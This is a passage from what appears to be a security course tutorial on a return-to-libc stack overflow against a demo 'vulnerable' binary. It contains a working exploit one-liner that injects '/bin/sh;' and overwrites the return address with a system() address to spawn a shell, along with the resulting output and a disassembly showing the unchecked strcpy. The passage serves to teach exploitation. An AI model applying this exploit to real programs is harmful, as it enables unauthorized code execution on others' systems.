 That's really interesting because those errors have nothing to do with
the program. Notices that the start of the error message refers to "sh"
reporting the error. Essentially, we were successful in getting
`system()` to execute, but the argument to system was not a valid
command. But, what was it?

Look more closely, you'll see it is a bunch of our A's: it's the input
we provided to the program. So we can control what get's called to it,
and moreover, the system() command accepts valid bash directives. so we
can do the following:

``` example
user@si485H-base:demo$ ./vulnerable 10 `python -c "import struct; cmd='/bin/sh;';print cmd+'A'*(0x2c+4-len(cmd))+struct.pack('<I',0xf7e261fc)"`
$
```

And, boom shell! 

What we did, is we inserted a "/bin/sh;" at the start
of our input string so that it will execute the shell. But there is
still a bunch of A's to follow that will cause an error, and exiting the
program, does just that:

``` example
$ 
sh: 1: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA???: not found
Segmentation fault (core dumped)
```

## Why this worked so easily

In our example, we got really lucky, because we control the argument to
`/bin/sh`. Let's take a look at the disassemble of `vuln`:

``` example
Dump of assembler code for function vuln:
   0x080484d5 <+0>: push   ebp
   0x080484d6 <+1>: mov    ebp,esp
   0x080484d8 <+3>: sub    esp,0x48
   0x080484db <+6>: mov    DWORD PTR [ebp-0xc],0x0
   0x080484e2 <+13>:    mov    eax,DWORD PTR [ebp+0xc]
   0x080484e5 <+16>:    mov    DWORD PTR [esp+0x4],eax
   0x080484e9 <+20>:    lea    eax,[ebp-0x2c]
   0x080484ec <+23>:    mov    DWORD PTR [esp],eax
   0x080484ef <+26>:    call   0x8048360 <strcpy@plt>
   0x080484f4 <+31>:    jmp    0x8048516 <vuln+65>
   0x080484f6 <+33>:    mov    eax,DWORD PTR [ebp-0xc]
   0x080484f9 <+36>:    lea    edx,[eax+0x1]
   0x080484fc <+39>:    mov    DWORD PTR [ebp-0xc],edx
   0x080484ff <+42>:    lea    edx,[ebp-0x2c]
   0x08048502 <+45>:    mov    DWORD PTR [esp+0x8],edx
   0x08048506 <+49>:    mov    DWORD PTR [esp+0x4],eax
   0x0804850a <+53>:    mov    DWORD PTR [esp],0x804860e
   0x08048511 <+60>:    call   0x8048350 <printf@plt>
   0x08048516 <+65>:    mov    eax,DWORD PTR [ebp-0xc]
   0x08048519 <+68>:    cmp    eax,DWORD PTR [ebp+0x8]
   0x0804851c <+71>:    jl     0x80484f6 <vuln+33>
=> 0x0804851e <+73>:    leave  
   0x0804851f <+74>:    ret    
End of assembler dump.
```
